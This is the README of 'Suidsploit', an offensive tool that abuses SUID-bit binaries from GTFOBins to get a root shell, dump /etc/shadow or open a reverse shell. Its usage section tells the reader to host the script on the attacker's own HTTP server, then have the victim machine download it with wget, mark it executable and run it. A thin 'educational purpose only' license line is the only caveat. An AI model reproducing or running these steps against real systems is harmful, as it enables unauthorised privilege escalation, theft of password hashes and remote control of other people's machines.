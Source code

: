 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins where the Suidbit is set.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

![alt text](https://github.com/S1lkys/Suidsploit/blob/master/Suidsploit.png)


# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git

$ cd Suidsploit/

$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.sh

$ chmod +x Suidsploit.sh

$ bash Suidsploit.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
